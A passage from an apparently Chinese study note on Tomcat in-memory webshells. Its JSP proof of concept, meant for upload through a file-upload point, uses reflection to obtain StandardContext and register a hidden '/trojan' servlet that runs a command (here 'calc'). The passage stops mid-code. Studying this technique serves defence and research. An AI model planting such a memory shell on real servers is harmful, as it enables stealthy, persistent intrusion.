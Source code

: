     结合开发 JavaWeb 的经验，总结一下其必须的要求大概如下：
    ```java
    wrapper = context.createWrapper();
    wrapper.setName(servlet.getServletName());
    wrapper.setServletClass(servlet.getServletClass());
    context.addChild(wrapper);
    ```

4. 模仿 `configureContext()` 的过程，编写的木马如下：
    ```jsp
    <%@ page import="javax.servlet.annotation.WebServlet" %>
    <%@ page import="java.io.IOException" %>
    <%@ page import="java.io.PrintWriter" %>
    <%@ page import="java.lang.reflect.Field" %>
    <%@ page import="org.apache.catalina.core.ApplicationContext" %>
    <%@ page import="org.apache.catalina.core.StandardContext" %>
    <%@ page import="org.apache.catalina.Wrapper" %><%--
      Created by IntelliJ IDEA.
      User: hasee
      Date: 2023/5/4
      Time: 16:38
      To change this template use File | Settings | File Templates.
    --%>
    <%@ page contentType="text/html;charset=UTF-8" language="java" %>
    <html>
    <head>
        <title>Title</title>
    </head>
    <body>
    <%!
      @WebServlet(urlPatterns = "/trojan")
      public class MemoryTrojanServlet extends HttpServlet {
        private String message;
    
        @Override
        public void init() {
          message = "Servlet Range!";
        }
    
        @Override
        protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
          Runtime.getRuntime().exec("calc");
        }
      }
    %>
    <%
      // 动态注册 Servlet （前提，有一个文件上传点，这个 servlet.jsp 文件就是小马，访问后就会生成内存马）
      // 1. 获取 StandardContext
      ServletContext servletContext = request.getServletContext();
      // ServletContext 中有 ApplicationContext，ApplicationContext 中又有 StandardContext。通过反射获取到 ApplicationContextField。
      Field applicationContextField = servletContext.getClass().getDeclaredField("context");
      applicationContextField.setAccessible(true);
      // 通过反射拿到 servletContext 具体的 ApplicationContext
      ApplicationContext applicationContext = (ApplicationContext) applicationContextField.get(servletContext);
      // 重复上述过程，从具体的 ApplicationContext 中拿到具体的 StandardContext
      Field standardContextField = applicationContext.getClass().getDeclaredField("context");
      standardContextField.setAccessible(true);
      StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);
      // 2. 将该 Servlet 注册到 Context 当中（过程和 StandardContext 注册 Servlet 一样）
      Wrapper wrapper = standardContext.createWrapper();
      wrapper.setName("MemoryTrojanServlet");
      wrapper.setServletClass(MemoryTrojanServlet.class.getName());